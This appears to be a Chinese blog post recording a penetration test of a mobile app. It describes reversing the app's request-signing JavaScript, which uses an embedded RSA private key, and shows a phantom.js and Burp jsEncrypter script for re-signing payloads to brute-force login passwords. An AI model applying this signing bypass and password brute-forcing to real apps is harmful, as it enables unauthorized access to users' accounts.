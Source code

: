 ```yaml
---
layout: post
title: app渗透测试记录
date: 2020-09-28
category: webmember
---
```


# 主要记录某个app的一次爆破记录

* 拿到app 对登录进行抓包发现请求体里面有个sign参数，那么对于无法修改参数 只能对参数进行sign 再替换掉
```
access_token=cd294d2533b4d01c1644216b485d424c&sign=4feb9cfdd19756b4a258d23eade3152849cf7baefad5c1fab44c99ccc7fa9f2ae12732b07ffe038103670c39d8ac75d639e0536100b128b12bc32b229ddb3132&sign_salt=16012835903941
```
* 由于APP未加固 由于是app想通过逆向获取到sign的计算方法，通过jadxapp反编译app，全局搜索sign未发现关键字
在asserts资源里面发现存在www目录 通过本地搭建app 然后访问阅读源码发现了参数sign
* 主要代码如下  
```
function getParamterSort(){
		   var dt=new Date(); 
	       var mtime=dt.getTime();
	       var time=mtime;  //获取时间字符串
	       var query = location.search.substr(1)
			    query = query.split('&')
			    var params = []
			    for (let i = 0; i < query.length; i++) {
			        let q = query[i].split('=')
			        if (q.length === 2) {
			            var sss =q[0]+decodeURI(q[1])
			            params.push(sss)
			        }
			    }
			 var dt=new Date(); 
			 var mtime=dt.getTime();
			 var str="sign_salt"+mtime;
			 params.push(str)
			 document.write("需要修改时间:"+"sign_salt="+mtime);
			 document.write("<br/>");
			 var ss=params.sort().join('');
			 return ss;
	}
	//整体字符串加密 通过html 参数传递

	function getSign1(str){
	var rsa = new RSAKey();
	rsa.readPrivateKeyFromPEMString(_privateKey);
	var signature = rsa.sign(str, 'sha256');
	document.write("加密之前的"+str);
	document.write("<br/>");
	document.write("当前加密之后的参数sign是:"+signature);
	document.write("<br/>");
}  
```  

![signhtml]({{ site.url }}/assert/image/signhtml.jpg)  
可以直接计算sign的值，然后我有使用phantom.js结合burp jsencryter插件编写成功爆破出账户密码  

```
var wasSuccessful = phantom.injectJs('1.js');/*引入实现加密的js文件*/
var wasSuccessful1 = phantom.injectJs('rsa.js');

// 处理函数
function js_encrypt(payload){
	var newpayload = getSign(payload)
	return newpayload;
}
```
